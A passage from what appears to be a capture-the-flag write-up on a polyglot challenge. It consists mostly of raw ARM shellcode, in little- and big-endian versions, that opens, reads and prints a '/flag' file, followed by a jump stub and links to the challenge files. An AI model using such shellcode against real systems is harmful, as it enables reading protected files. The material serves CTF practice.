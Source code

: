                         dd       0xE28DD064
                        dd       0xE28F0030
                        dd       0xE3A01000
                        dd       0xEF900005
                        dd       0xE3A02064
                        dd       0xE1A0100D
                        dd       0xE2411064
                        dd       0xEF900003
                        dd       0xE3A02064
                        dd       0xE1A0100D
                        dd       0xE2411064
                        dd       0xE3A00001
                        dd       0xEF900004
                        dd       0xE3A00000
                        dd       0xEF900001
                        db       "/flag", 0


                        times 0x300 - ($-$$) db 0xFF
                        align    4
                        ;big endian arm shellcode -&gt; same procedure like for previos ARM but select big endian arm
                        ;shellcodes are exactly them same with change that this one is convereted to big-endian
                        dd       0x64D08DE2
                        dd       0x64D08DE2
                        dd       0x64D08DE2
                        dd       0x64D08DE2
                        dd       0x30008FE2
                        dd       0x0010A0E3
                        dd       0x050090EF
                        dd       0x6420A0E3
                        dd       0x0D10A0E1
                        dd       0x641041E2
                        dd       0x030090EF
                        dd       0x6420A0E3
                        dd       0x0D10A0E1
                        dd       0x641041E2
                        dd       0x0100A0E3
                        dd       0x040090EF
                        dd       0x0000A0E3
                        dd       0x010090EF
                        db       "/flag", 0

                        ;LDR    pc, [pc, #4]		little endian
                        ;LDR    pc, [pc, #4]	 	big endian
                        times    0x390 - ($-$$) db 0xFF
                        dd       0xE59FF000
                        dd       0x00F09FE5
                        dd       0x41000200
                        dd       0x00030041


</pre>

**Generic python code for CTF when user input is required:**


 [1]: http://deroko.phearless.org/polyglot/polyglot_9d64fa98df6ee55e1a5baf0a170d3367
 [2]: http://deroko.phearless.org/polyglot/polyglot_6a3875ce36a55889427542903cd43893
 [3]: http://deroko.phearless.org/polyglot/polyglot_c0e7a26d7ce539efbecc970c154de844
 [4]: http://deroko.phearless.org/polyglot/polyglot_5b78585342a3c116aebb5a9b45e88836
